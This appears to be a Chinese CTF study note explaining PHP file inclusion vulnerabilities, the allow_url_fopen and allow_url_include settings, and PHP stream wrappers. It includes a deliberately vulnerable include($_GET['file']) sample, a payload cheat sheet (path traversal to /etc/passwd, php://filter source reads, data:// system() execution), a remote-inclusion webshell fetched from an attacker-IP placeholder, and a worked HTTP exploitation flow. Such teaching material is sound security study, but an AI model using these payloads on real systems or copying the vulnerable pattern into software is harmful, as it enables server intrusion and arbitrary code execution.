


## 一句话概括

**文件包含漏洞 = 后端把用户能控制的字符串直接塞进了 `include()` / `require()` 的参数里。** 危险的地方不是「读了文件」，而是 **`include` 会把读到的文件内容当 PHP 代码执行**。

## 原理

### 1. 文件包含本来是干什么的

服务器执行 PHP 文件时，可以通过**文件包含函数**把另一个文件加载进来，并**当作 PHP 代码一起执行**。这是开发者的基础设施：

- 写一份公共页眉 / 菜单，所有页面 `include` 它，改一处就全局生效；
- 新增一个页面时，只需改菜单文件，不用动所有链接。

也就是说，**「把别人的文件当自己的代码跑」是这个功能的正常行为，不是 bug**。bug 出在「这个别人的文件由谁来指定」。

### 2. 为什么 `include $_GET['file']` 危险

关键在于它和「读文件」是**两件性质完全不同的事**：

| | 读文件（`readfile` / `file_get_contents`） | 包含（`include` / `require`） |
|---|---|---|
| 对内容的处理 | 当**数据**，原样输出 | 当**PHP 代码**，交给引擎解释执行 |
| 源码里 `<?php ... ?>` | 原样显示出来 | 被执行掉，看不到 |
| 攻击者的收获 | 信息泄露（源码、配置） | **代码执行**（服务器替你把代码跑了） |

```php
<?php
$file = $_GET['file'];
include($file);          // 用户能控制 file，就等于能控制「执行哪段代码」
?>
```

攻击者传 `?file=../../../../etc/passwd`，PHP 只是把 `/etc/passwd` 当普通文本吐出来（里面没有 PHP 标签可执行）；
但攻击者只要能让某个**内容可控的文件**被包含进来，里面的 `<?php ... ?>` 就会被执行 —— 这就升级成了**任意代码执行**。



**一句话区分**：读文件是「把内容拿走」，包含是「让服务器把内容当代码跑」。整条攻击链的价值差异就在这里。

> 关于「为什么直接 `include` 一个 PHP 文件看不到源码、而 `php://filter` 能看到」的完整推导，见 `00-基础\编码-为什么要Base64.md`，本文不重复。

### 3. 四个包含函数的差别

PHP 有四个包含函数，行为差异只在**出错后的处理**和**是否重复包含**：

| 函数 | 文件不存在时 | 重复包含 | 说明 |
|---|---|---|---|
| `include()` | 报警告，**继续执行** | 允许 | 最常用，也是 CTF 里最常见的那一个 |
| `require()` | 报**致命错误，停止执行** | 允许 | 对文件存在性更严格 |
| `include_once()` | 报警告，继续执行 | **只包含一次** | 避免函数重定义、变量重复赋值 |
| `require_once()` | 报致命错误，停止执行 | 只包含一次 | 同 `require` + 去重 |

对漏洞利用来说，这四个函数的**攻击面是一样的** —— 只要能控制参数就行。差别只在「包含失败时页面还会不会继续往下走」，做题时用来判断走没走到包含这一行。

### 4. 本地包含 LFI 与远程包含 RFI

```php
<?php
$page = $_GET['page'];
include($page . '.php');
?>
```

- **本地文件包含（LFI）**：`?page=../../../../etc/passwd` —— 包含服务器**本地**已有文件。
  注意这里代码写的是 `include($page . '.php')`，会去拼 `../../../../etc/passwd.php`。旧版 PHP（< 5.3.4）可以用 `%00` 截断掉后缀：
  ```text
  ?page=../../../../etc/passwd%00      →  实际打开 /etc/passwd
  ```
  `%00` 被当成字符串结束符，后面的 `.php` 被丢弃。**新版 PHP 已失效**，见到就猜是老环境。

- **远程文件包含（RFI）**：`?page=http://攻击者IP/shell.txt` —— 包含**攻击者自己服务器**上的文件。
  前提是 `allow_url_include = On`（默认 **Off**）。命中后，服务器请求 `shell.txt` 的内容并当 PHP 执行：

  ```text
  攻击机 /shell.txt 内容：  <?php system($_GET['cmd']); ?>
  请求：?page=http://攻击者IP/shell.txt&cmd=id
  ```

  → 服务器把 `cmd=id` 的代入了 shell，实现任意命令执行。

### 5. 重点：`allow_url_fopen` 与 `allow_url_include` 的职责边界

这两个配置长期被混淆（原笔记正是围绕这个困惑展开的），必须分清：

| 配置项 | 管谁 | 管什么 | 默认值 |
|---|---|---|---|
| `allow_url_fopen` | `fopen()` / `file_get_contents()` / `readfile()` / `copy()` 等**文件系统函数** | 能否把 **`http://` / `ftp://` / `data://` 等远程或内联包装器**当数据源打开 | **On** |
| `allow_url_include` | `include()` / `require()` / `include_once()` / `require_once()` 这四个**包含函数** | 能否把 **`http://` / `ftp://` / `data://` / `php://input`** 的内容当 **PHP 代码包含并执行** | **Off** |

**两者的关系**：

- `allow_url_include` **依赖** `allow_url_fopen`。`allow_url_fopen=Off` 时，即使 `allow_url_include=On`，远程包含同样不可用。
- 可以把 `allow_url_include` 理解为 `allow_url_fopen` 的**更危险的特化版本**：前者是「打开」，后者是「打开并执行」。

所以回答「是 `allow_url_include` 让伪协议能用，还是伪协议随时可用」这个问题 —— **因包装器而异**：



- **永远可用（与 `allow_url_include` 无关）**：`file://`、`php://filter`。它们访问的是**本地**内容，被视为「安全」包装器。
  - `include('file:///etc/passwd');` 等价于 `include('/etc/passwd');`
  - `php://filter` 用于 `include` 时**不受限制** —— 这就是它成为「文件包含漏洞第一利器」的原因。
- **需要 `allow_url_include=On`**：`http://` / `https://`、`ftp://` / `ftps://`、`data://`、以及**用于 include 时的 `php://input`**。因为它们的数据源来自「外部」。
- **视环境而定**：`zlib://`、`phar://`、`zip://`、`glob://`、`expect://` 等。它们一般可用于文件系统函数，但作为 include 源时能否工作取决于扩展和配置。

> 一句话记忆：**`fopen` 管「打开远程流」，`include` 管「把远程流当代码跑」；`file://` 和 `php://filter` 两头都豁免。**

## 利用条件

1. **存在可控的包含参数**：`?file=`、`?page=`、`?filename=`、`?path=` 这类直接进了 `include` / `require` 的值；
2. **参数没做严格过滤**：不是白名单，也没有 `basename()` / `realpath()` + 前缀校验；
3. **知道（或能猜到）目标路径**：LFI 需要文件的真实路径；RFI 需要外连；
4. **要有出口**：文件里的 PHP 得被执行，或者包含结果得被输出（否则只能盲打）；
5. **受配置限制**：RFI 额外需要 `allow_url_include=On`；`open_basedir`、`disable_functions` 会进一步收紧。

## 协议/包装器能力对照表

| 包装器 | 受哪个开关控制 | 能否读文件 | 能否当包含源（执行） | 常见 Payload |
|---|---|---|---|---|
| `file://` | 无（默认包装器） | 能 | 能 | `?file=file:///etc/passwd` |
| `php://filter` | 无 | 能（有回显） | 能（内容原样输出） | `?file=php://filter/convert.base64-encode/resource=index.php` |
| `php://input` | `allow_url_include` | 能（读请求体） | 需 `allow_url_include=On` | `?file=php://input` + POST 体 |
| `data://` | `allow_url_include` | 能（内联数据） | 需 `allow_url_include=On` | `?file=data://text/plain,<?=system("tac f*");?>` |
| `http://` / `https://` | `allow_url_include` | 需 `allow_url_fopen` | 需 `allow_url_include=On` | `?file=http://攻击者IP/shell.txt` |
| `ftp://` / `ftps://` | `allow_url_include` | 需 `allow_url_fopen` | 需 `allow_url_include=On` | `?file=ftp://...` |
| `zip://` | 视环境 | 能（读归档内文件） | 能（需归档路径） | `?file=zip:///tmp/a.zip%23shell.php` |
| `phar://` | 视环境 | 能 | 能 | `?file=phar:///tmp/a.phar/x.txt` |
| `glob://` | 视环境 | 查文件列表 | 一般不能 | `glob:///var/www/*.txt` |
| `expect://` | 需装 expect 扩展 | — | 能（命令执行） | `?file=expect://id` |

## Payload 速查

| 目的 | Payload |
|---|---|
| 读系统文件（本地包含） | `?file=../../../../etc/passwd` |
| 读系统文件（多写几级兜底） | `?file=../../../../../../../../etc/passwd` |
| 读源码（首选） | `?file=php://filter/convert.base64-encode/resource=index.php` |
| 读源码（rot13） | `?file=php://filter/read=string.rot13/resource=index.php` |
| 内联代码执行 | `?file=data://text/plain,<?=system("tac f*");?>` |
| 内联代码执行（base64 形态） | `?file=data://text/plain;base64,PD89c3lzdGVtKCJ0YWMgZioiKTs/Pg==` |
| POST 体当代码 | `?file=php://input`（请求体写 PHP 代码） |
| 远程包含 | `?file=http://攻击者IP/shell.txt` |
| 旧 PHP 后缀截断 | `?file=../../../../etc/passwd%00` |

## 完整示例

一个最简的 LFI → 读源码流程：

**1. 确认包含点可用**

```http
GET /?filename=../../../../etc/passwd HTTP/1.1
Host: 靶机地址
```

响应里出现 `root:x:0:0:...` → 本地包含成立。

**2. 换用 `php://filter` 读源码（有回显）**

```http
GET /?filename=php://filter/convert.base64-encode/resource=index.php HTTP/1.1
Host: 靶机地址
```

响应体：

```text
PD9waHAKaW5jbHVkZSgkX0dFVFsnZmlsZW5hbWUnXSk7Cj8+Cg==
```

**3. 解码**

```bash
echo "PD9waHAKaW5jbHVkZSgkX0dFVFsnZmlsZW5hbWUnXSk7Cj8+Cg==" | base64 -d
```

```php
<?php
include($_GET['filename']);
?>
```

到这里就拿到了后端源码 —— 后面往哪打、过滤了什么，一目了然。

## 踩坑与备注

- **「文件包含」不等于「文件读取」**：前者能执行代码，后者只能看内容。两类的 payload 长得很像，但后果天差地别。本仓库把两者拆成了 `05-文件包含` 与 `06-文件读取` 两个分区，注意对照。
- **`allow_url_fopen=Off` 的原笔记表述**：原文写「`allow_url_fopen=off` 即不可以包含远程文件」—— 严格说它管的是**文件系统函数**打开远程流；**包含**远程文件还额外需要 `allow_url_include=On`。两句话都成立，但归属的开关不同。
- **`%00` 截断已废弃**：PHP 5.3.4 起不再生效，见到先猜环境版本。
- **路径遍历属于另一个分区**：`../` 目录穿越的原理、编码绕过等，详见 `01-信息收集\目录遍历.md`；本文只保留它在文件包含场景下的用法。
- **原文提到的四个 `php://filter` 参数**（`read` / `write` / `string` / `convert`）在 `06-文件读取\php伪协议读文件.md` 中有完整拆解。
